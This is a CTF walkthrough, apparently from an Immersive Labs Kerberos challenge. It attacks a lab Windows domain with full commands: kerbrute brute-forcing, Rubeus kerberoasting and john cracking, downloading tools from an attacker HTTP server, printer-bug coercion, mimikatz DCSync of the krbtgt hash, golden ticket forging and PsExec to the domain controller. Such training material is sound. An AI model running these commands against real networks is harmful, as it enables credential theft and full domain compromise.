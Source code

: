 ```yaml
---
date: 2025-04-24
categories: [CTF, ImmersiveLabs]
title: "IML - Kerberos: Ep.13 – Demonstrate your skills"
tags: ['hashcat', 'john the ripper', 'kerberos', 'mimikatz', 'powershell', 'privilege escalation', 'python', 'rce', 'windows']

description: "Kerberos Ep.13 – Demonstrate your skills - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Kerberos: Ep.13 – Demonstrate your skills


![image1](../resources/eb9a0af945024067bf3743669956becf.png)

# ![image2](../resources/5fbcc1d087bc4a43ae0da894139f234d.png)

```bash
./kerbrute bruteuser -d krbtown.local --dc 10.102.11.232 /usr/share/wordlists/krbpasswords.txt s.villanelle

```

![image3](../resources/82229e4cd1ab46b191c60f29b82143d4.png)

- Got valid credentials


![image4](../resources/0852f5bdc6fb4d92bfd3eee703dc469b.png)

- Use credentials to rdp:

```bash
xfreerdp /v:10.102.30.15 /u:s.villanelle /d:krbtown.local +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```
- Token: 8dae10


![image5](../resources/ed950f2a96b9467a920841bf851e36d2.png)

- Upload Rubeus to workstation-01

```bash
python3 -m http.server 8080

```

![image6](../resources/903a4b8eef6f40eeaa2eb24239e9302e.png)

```bash
curl http://10.102.30.234:8080/Rubeus.exe > Rubeus.exe

```

![image7](../resources/8acfa91590514a4c8a3c438b7b075882.png)

- Open admin PS - Run rubeus.exe
.\Rubeus.exe kerberoast /user:mssql_svc /outfile:hashes.kerberoast


![image8](../resources/9a3dc2dcdfc541a2a87082f889a2c5d7.png)


![image9](../resources/0da917ac1c294f5bbdb1e9fc2379ee82.png)

- Copy and save hash to Kali (hash.txt)

- Use john (no hashcat):
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=krb5tgs

- Password: **blink182!**

- RDP to wks-02:

```bash
xfreerdp /v:10.102.52.164 /u:mssql_svc /p:blink182! /d:krbtown.local +clipboard +drives /drive:root,/home/kali /dynamic-resolution

```

![image10](../resources/378f60dbf30941bc8d466ee1fdfcad9c.png)

- Set up python server in Tools:

```bash
python -m http.server

```
- Use the native Powershell command to curl (this doesn't corrupt the file):

```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/PowerView-Dev.ps1','PowerView-Dev.ps1')

```
- Enumerating for unconstrained delegation:

```bash
Get-DomainComputer -Unconstrained -Properties dnshostname

```

![image11](../resources/92776ade960f4f968a9e5e71889c5e69.png)

- We are already on wks-02

- Set up python server and download Rubeus, MS-RPRN, PsExec64 and mimikatz:

```bash
(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/Rubeus.exe','Rubeus.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/MS-RPRN.exe','C:\Users\mssql_svc\MS-RPRN.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/PsExec64.exe','C:\Users\mssql_svc\PsExec64.exe')

(new-object System.Net.WebClient).DownloadFile('http://10.102.149.56:8080/mimikatz.exe','C:\Users\mssql_svc\mimikatz.exe')

```
- Open an elevated command prompt and monitor for TGT **(Open in CMD, not PS)**:

```bash
.\Rubeus.exe monitor /interval:1 /nowrap

```
- To force a connection to our compromised host Workstation-02, you can use the MS-RPRN tool by running it on an elevated PowerShell prompt:

```bash
.\MS-RPRN.exe \\DC01.krbtown.local \\Workstation-02.krbtown.local

```

![image12](../resources/fad254bf7daa4721b32200b4b2781661.png)

If no wrap wasn't used:
- Copy the Base64 ticket and paste into Kali (ticket.txt):
**Remove empty lines and white spaces from the Base64 ticket before passing it through Rubeus:**

```bash
python3 -c 'f=open("ticket.txt").read();import re;print(re.sub(r"\[\n\t\s\]\*", "", f))'
```

- Copy the output and paste into the command (on Windows):

```powershell
[IO.File]::WriteAllBytes("C:\Users\mssql_svc\DC.kirbi", [Convert]::FromBase64String("Base64 Ticket"))

```
(Change the directory to where Rubeus is)

Convert from Base64 and saves it in **DC.kirbi**:

- Load the ticket into memory:

```bash
.\Rubeus.exe ptt /ticket:DC.kirbi

```

or

```bash
.\Rubeus.exe ptt /ticket:<base64>

```
or with

```bash
.\mimikatz.exe

kerberos::ptt DC.kirbi

```

![image13](../resources/0fddd00966e6450cb4af1dd908a16818.png)

- Check with klist

![image14](../resources/141340df50624dac9a60844f53a91e3c.png)

- Run:

```bash
.\mimikatz.exe
lsadump::dcsync /domain:krbtown.local /user:krbtgt

```

![image15](../resources/22f73d9f3f8041a6be366e90a1d1ce23.png)

- Copy the NTLM hash and the SID:


![image16](../resources/792d1d115c864d9197ef14e2899a13db.png)


![image17](../resources/c01c6683d0ab4946a1e2ca140849eb58.png)

**\*\* The SID is the highlighted text above - Not including the last part (-502)  
That part is specific to that user account**

- Run mimikatz
- Create Kerberos Golden ticket with the information gathered above:

```bash
kerberos::golden /domain:krbtown.local /sid:S-1-5-21-839606329-3182976252-758991142 /krbtgt:9a60db81a985dd1b22b3d34fa598fe19 /user:Administrator

```
The **/user:** is a username we make up ourselves.

This can be anything but Administrator is less conspicuous


![image18](../resources/0fc9917b07324daf9090b6ffdd1a0071.png)


![image19](../resources/7ec819c264434e379b257c9b860180fa.png)

- Run .\mimikatz.exe again with the following command:

```bash
kerberos::ptt ticket.kirbi

```

![image20](../resources/291e0785ed02449c8b925c0a54227448.png)

- Check with klist

![image21](../resources/fe5cbc4a600244ff896d897f651af9e8.png)

- Now that we have a Golden Ticket in memory (TGT) for administrator on the DC, you can use PsExec to log in to the DC:

```bash
.\PsExec64.exe \\dc01.krbtown.local cmd

```
**\*\*Need to use the DNS name to force the use of Kerberos**


![image22](../resources/cd77966db48f440abd1687b5fd9a8c6c.png)
